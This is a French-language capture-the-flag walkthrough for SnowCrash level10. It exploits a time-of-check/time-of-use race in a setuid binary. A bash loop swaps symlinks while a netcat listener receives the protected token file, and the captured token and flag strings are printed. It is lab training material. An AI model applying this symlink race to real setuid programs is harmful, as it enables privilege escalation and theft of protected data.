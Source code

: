 ls -la
ex level10
token

level10@SnowCrash:~$ cat token
cat: token: Permission denied

level10@SnowCrash:~$ ./level10 token
./level10 file host
        sends file to host if you have access to it

level10@SnowCrash:~$ ./level10 token localhost
You don't have access to token

je cree un /tmp/test avec rien de dans et je me donne les droit puis je test
./level10 /tmp/test localhost
Connecting to localhost:6969 .. Unable to connect to host localhost

du coup ca marche avec un serveur je vais utiliser nc comme dans ft_irc pour resevoir les message

nc -lk 192.168.1.21 6969
puis je lance 
./level10 /tmp/test 192.168.1.21
il me renvoit ce que j'ai mis dans le /tmp/

bon je suis perdu je ltrace et je vois la fonction access qui check les permission
je cherche si on peut faire quelque chose avec et hop dans le man de access on nous dit
Avertissement : Utiliser access() pour vérifier si un utilisateur a le droit, par exemple, d'ouvrir un fichier avant d'effectuer réellement l'ouverture avec open(2), risque de créer un trou de sécurité. En effet, l'utilisateur peut exploiter le petit intervalle de temps entre la vérification et l'accès pour modifier le fichier (via un lien symbolique en général). Pour cette raison, l'utilisation de cet appel système devrait être évitée.

il faut donc exploiter ce trou de securite en creant un fichier avec les droits en utilisant aussi la technique de link
et en le faisant tres vite on va pouvoir exploiter cette faille

bon le faire a la main et impossible il faut cree un programme qui link token a notre fichier et qui link notre fichier cree a un nouveau fichier
et on spam ca tank qu'on ne l'arrete pas ca donne ca:

/tmp/scrip.sh = 
#!/bin/bash

echo HAAAAA > /tmp/HAAAA
(while :; do ln -sf ~/token /tmp/test; ln -sf /tmp/HAAAA /tmp/test; done)&
while :; do ~/level10 /tmp/test 192.168.1.21; done

nc -lk 192.168.1.21 6969 d'un coter
et ensuite ./level10 /tmp/scrip.sh 192.168.1.21

HAAAAA
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
HAAAAA
.*( )*.
HAAAAA
.*( )*.
HAAAAA
.*( )*.
HAAAAA
.*( )*.
woupa2yuojeeaaed06riuj63c

flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c